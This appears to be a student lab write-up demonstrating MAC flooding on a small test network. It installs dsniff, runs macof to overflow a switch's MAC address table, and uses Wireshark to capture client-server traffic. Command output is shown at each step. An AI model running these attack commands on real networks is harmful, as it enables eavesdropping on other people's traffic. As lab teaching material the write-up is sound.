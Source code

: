 ```yaml
---
title: MAC flooding
---
```


# MAC flooding

1. Goal
    * Changing the behavior of the switch to the behavior of a hub. (Monitoring all traffic)

2. Used hardware
    * 1 laptop with Kali Linux
    * 2 devices (Client & Server)
    * 1 laptop with Wireshark
    * 1 switch

3. Used software
    * Kali Linux (2020.1)
    * Wireshark 3.2.2

4. Setup

    ![Success](./assets/flooding.png)

5. Getting started
    1. Get an overview of your network. (Kali Linux)
    
    ```
    kali@kali:~# sudo netdiscover
    ```

    ```
    Currently scanning: 192.168.20.0/16   |   Screen View: Unique Hosts                                  
                                                                                                      
    2 Captured ARP Req/Rep packets, from 2 hosts.   Total size: 120                                      
    _____________________________________________________________________________
        IP            At MAC Address     Count     Len  MAC Vendor / Hostname      
    -----------------------------------------------------------------------------
    192.168.1.1     00:24:9b:13:3d:74      1        60  Action Star Enterprise Co., Ltd.                                          
    192.168.1.4     00:21:70:af:62:79      1        60  Dell Inc.   
    ```

    The result shows us the client (192.168.1.1) and the server (192.168.1.4).

    2. Start the communication between the client and the server.

    ```
    C:\Users\Student>ping 192.168.1.4 -t

    Pinging 192.168.1.4 with 32 bytes of data:
    Reply from 192.168.1.4: bytes=32 time<1ms TTL=64
    Reply from 192.168.1.4: bytes=32 time<1ms TTL=64
    Reply from 192.168.1.4: bytes=32 time<1ms TTL=64
    Reply from 192.168.1.4: bytes=32 time<1ms TTL=64
    ```
    
    3. Look at the MAC address table of the client.

    ```
    C:\Users\Student>arp -a

    Interface: 192.168.1.1 --- 0xb
        Internet Address      Physical Address      Type
        192.168.1.4           00-21-70-af-62-79     dynamic   
        192.168.1.255         ff-ff-ff-ff-ff-ff     static    
        224.0.0.22            01-00-5e-00-00-16     static    
        224.0.0.251           01-00-5e-00-00-fb     static    
        224.0.0.252           01-00-5e-00-00-fc     static 
    ```

    4. Start Wireshark. (Kali Linux)

    ![Success](./assets/capture.png)

    The result shows us no ICMP traffic destined for the server (192.168.1.4).

    5. Install macof on Kali Linux. (If necessary)

    ```
    kali@kali:~# sudo apt-get update
    kali@kali:~# sudo apt-get upgrade
    kali@kali:~# sudo apt-get install dsniff
    ```

    6. Check the MAC address table of the switch.

    ```
    Switch#show mac address-table
              Mac Address Table
    -------------------------------------------

    Vlan    Mac Address       Type        Ports
    ----    -----------       --------    -----
    All    0100.0ccc.cccc    STATIC      CPU
    All    0100.0ccc.cccd    STATIC      CPU
    All    0180.c200.0000    STATIC      CPU
    All    0180.c200.0001    STATIC      CPU
    All    0180.c200.0002    STATIC      CPU
    All    0180.c200.0003    STATIC      CPU
    All    0180.c200.0004    STATIC      CPU
    All    0180.c200.0005    STATIC      CPU
    All    0180.c200.0006    STATIC      CPU
    All    0180.c200.0007    STATIC      CPU
    All    0180.c200.0008    STATIC      CPU
    All    0180.c200.0009    STATIC      CPU
    All    0180.c200.000a    STATIC      CPU
    All    0180.c200.000b    STATIC      CPU
    All    0180.c200.000c    STATIC      CPU
    All    0180.c200.000d    STATIC      CPU
    All    0180.c200.000e    STATIC      CPU
    All    0180.c200.000f    STATIC      CPU
    All    0180.c200.0010    STATIC      CPU
    All    ffff.ffff.ffff    STATIC      CPU
      1    0021.70af.6279    DYNAMIC     Gi0/1
      1    0024.9b13.3d74    DYNAMIC     Gi0/4
      1    d067.e556.cac8    DYNAMIC     Gi0/2
      1    ecf4.bb1b.7671    DYNAMIC     Gi0/3
    Total Mac Addresses for this criterion: 24
    Switch#
    ```
    
    6. Launch the attack. (MAC Flooding)

    ```
    kali@kali:~# sudo macof -i eth0
    ```
    
    7. Clear the MAC address table of the switch. (To speed up the result of the attack)

    ```
    Switch#clear mac address-table  
    ```

    8. Stop the attack and check the status of MAC address table.

    ```
    Switch#show mac address-table count

    Mac Entries for Vlan 1:
    ---------------------------
    Dynamic Address Count  : 8170
    Static  Address Count  : 0
    Total Mac Addresses    : 8170

    Total Mac Address Space Available: 0

    Switch# 
    ```
    9. Check Wireshark.

    ![Success](./assets/capture2.png)

    The result shows us ICMP traffic destined for the server (192.168.1.4).

6. Conclusion
    * It is easy to change the behavior of a switch to the behavior of a hub.